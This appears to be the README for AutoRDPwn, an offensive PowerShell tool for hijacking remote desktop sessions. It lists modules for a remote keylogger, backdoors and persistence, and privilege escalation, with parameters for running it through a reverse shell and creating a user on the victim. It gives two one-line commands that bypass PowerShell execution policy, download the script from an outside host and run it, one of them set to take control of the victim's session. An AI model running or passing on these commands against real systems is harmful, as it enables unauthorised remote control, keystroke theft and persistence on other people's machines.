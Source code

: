 • Improved remote execution (internet connection is no longer necessary on the victim)

• New section available: Backdoors and persistence

• New module available: Remote Keylogger

• New section available: Privilege escalation

• New module available: Obtain information from the operating system

• New module available: Search vulnerabilities with Sherlock

• New module available: Escalate privileges with PowerUp

• New section available: Other Modules

• New module available: Execute an external script

*The rest of the changes can be consulted in the CHANGELOG file


# Use
This application can be used locally, remotely or to pivot between teams.

When used remotely in a reverse shell, it is necessary to use the following parameters:

| Parameter               | Description                                                                                    | 
| :---------------------- | :--------------------------------------------------------------------------------------------- | 
| **-admin / -noadmin**   | Depending on the permissions we have, we will use one or the other                             |
| **-nogui**              | This will avoid loading the menu and some colors, guaranteed its functionality                 | 
| **-lang**               | We will choose our language (English, Spanish, French, German, Italian, Russian or Portuguese) |
| **-option**             | As with the menu, we can choose how to launch the attack                                       |
| **-shadow**             | We will decide if we want to see or control the remote device                                  |
| **-createuser**         | This parameter is optional, the user AutoRDPwn:AutoRDPwn will be created on the victim machine |

**Local execution on one line:**
```
powershell -ep bypass "cd $ env: temp; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Example of remote execution on a line:**
```
powershell -ep bypass "cd $ env: temp; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang English -option 4 -shadow control -createuser"
```


**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Screenshots
![AutoRDPwn1_en](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn1_en.PNG)
![AutoRDPwn2_en](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn2_en.PNG)
